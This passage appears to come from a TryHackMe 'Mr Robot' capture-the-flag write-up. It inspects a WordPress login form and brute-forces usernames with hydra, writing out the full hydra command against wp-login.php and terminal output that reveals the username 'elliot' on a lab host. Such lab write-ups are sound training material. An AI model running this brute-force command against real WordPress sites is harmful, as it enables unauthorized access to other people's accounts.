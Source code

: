 As expected, it is a login page for wordpress, trying some default credentials only gets us ERROR: Invalid username, maybe if we submit a correct username we get something different.

Using hydra, we can brute force the username with the wordlist we found earlier, but first lets look at the source code of the page.

![sourcecode](/assets/img/tryhackme/mrrobotctf/params.png)

We can see that the method used to submit data is a POST request, with the username parameter "log" and password parameter "pwd", with these information, we can now start hydra with the following command:`hydra -L sorted.dic -p test {target_IP} http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username"`

```terminal
 $ hydra -L sorted.dic -p test 10.10.117.187 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username"
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-12-21 09:01:17
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 11452 login tries (l:11452/p:1), ~716 tries per task
[DATA] attacking http-post-form://10.10.117.187:80/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username
[STATUS] 1233.00 tries/min, 1233 tries in 00:01h, 10219 to do in 00:09h, 16 active
[STATUS] 1235.67 tries/min, 3707 tries in 00:03h, 7745 to do in 00:07h, 16 active
[80][http-post-form] host: 10.10.117.187   login: elliot   password: test
[80][http-post-form] host: 10.10.117.187   login: ELLIOT   password: test
[80][http-post-form] host: 10.10.117.187   login: Elliot   password: test
```
